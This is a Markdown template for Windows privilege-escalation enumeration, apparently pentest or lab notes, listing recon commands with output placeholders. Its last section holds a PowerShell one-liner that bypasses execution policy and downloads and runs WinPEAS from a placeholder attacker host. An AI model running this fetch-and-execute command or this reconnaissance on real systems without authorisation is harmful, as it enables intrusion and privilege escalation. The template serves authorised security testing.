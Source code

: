 # Windows

## System Information
### Username and Hostname
```powershell
whoami
```
```powershell
<insert hostname\username here>
```

### Group memberships of the current user
```powershell
whoami /groups
```
```powershell
<insert output here>
```

### Existing users and groups
- **Enumerating Users**
    ```batch
    net user
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-LocalUser
    ```
    ```batch
    <insert output here>
    ```
- **Enumerating Groups**
    ```batch
    net localgroup
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-LocalGroup
    ```
    ```powershell
    <insert output here>
    ```
    ```powershell
    Get-LocalGroupMember $GROUP
    ```
    ```powershell
    <insert output here>
    ```

### Operating system, version and architecture
- **System Information**
    ```batch
    systeminfo
    ```
    ```batch
    <insert output here>
    ```
- **Network Information**
    ```batch
    ipconfig /all
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    route print
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    netstat -ano
    ```
    ```batch
    <insert output here>
    ```
- **Installed Applications and Running Services**
    ```powershell
    Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    ```
    ```powershell
    <insert output here>
    ```
    ```powershell
    Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    ```
    ```powershell
    <insert output here>
    ```
    ```batch
    dir "C:\Program Files"
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    dir "C:\Program Files (x86)"
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    dir %USERPROFILE%\Downloads
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-Process
    ```
    ```powershell
    <insert output here>
    ```

## Winpeas
```powershell
powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
```
```powershell
<insert winpeas output here>
```
